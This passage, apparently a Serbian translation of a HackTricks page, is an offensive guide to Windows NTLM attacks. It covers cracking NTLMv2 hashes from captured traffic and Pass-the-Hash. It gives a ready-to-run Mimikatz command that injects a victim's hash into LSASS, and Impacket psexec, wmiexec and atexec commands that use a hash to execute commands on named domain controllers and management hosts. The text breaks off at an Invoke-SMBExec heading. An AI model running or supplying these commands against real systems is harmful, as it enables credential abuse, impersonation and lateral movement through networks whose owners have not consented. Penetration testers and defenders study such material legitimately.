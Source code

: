 Ako imate pcap datoteku koja je zabeležila uspešan proces autentifikacije, možete pratiti ovaj vodič kako biste dobili domen, korisničko ime, izazov i odgovor i pokušati da probijete lozinku: [https://research.801labs.org/cracking-an-ntlmv2-hash/](https://research.801labs.org/cracking-an-ntlmv2-hash/)

### Pass-the-Hash

Kada imate heš žrtve, možete ga koristiti da se predstavljate kao ta osoba.\
Treba vam alat koji će izvršiti NTLM autentifikaciju koristeći taj heš, ili možete kreirati novu sesiju prijavljivanja i ubaciti taj heš unutar LSASS-a, tako da će se taj heš koristiti prilikom bilo koje NTLM autentifikacije. Poslednja opcija je ono što radi mimikatz.

Molim vas, zapamtite da možete izvršiti napade Pass-the-Hash i koristeći račune računara.

#### Mimikatz

Mora se pokrenuti kao administrator

```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"'
```

Ovo će pokrenuti proces koji će pripadati korisnicima koji su pokrenuli mimikatz, ali unutar LSASS-a sačuvane akreditacije su one unutar mimikatz parametara. Zatim, možete pristupiti mrežnim resursima kao da ste taj korisnik (slično triku `runas /netonly`, ali ne morate znati lozinku u obliku čistog teksta).

#### Pass-the-Hash sa linuxa

Možete dobiti izvršenje koda na Windows mašinama koristeći Pass-the-Hash sa linuxa.\
[**Pristupite ovde da biste naučili kako to uraditi.**](https://github.com/carlospolop/hacktricks/blob/rs/windows/ntlm/broken-reference/README.md)

#### Impacket Windows kompajlirani alati

Možete preuzeti binarne fajlove impacket-a za Windows ovde: [https://github.com/ropnop/impacket\_static\_binaries/releases/tag/0.9.21-dev-binaries](https://github.com/ropnop/impacket\_static\_binaries/releases/tag/0.9.21-dev-binaries).

* **psexec\_windows.exe** `C:\AD\MyTools\psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local`
* **wmiexec.exe** `wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local`
* **atexec.exe** (U ovom slučaju morate navesti komandu, cmd.exe i powershell.exe nisu validni za dobijanje interaktivne ljuske)`C:\AD\MyTools\atexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local 'whoami'`
* Postoji još nekoliko Impacket binarnih fajlova...

#### Invoke-TheHash

Možete dobiti powershell skripte odavde: [https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)

**Invoke-SMBExec**
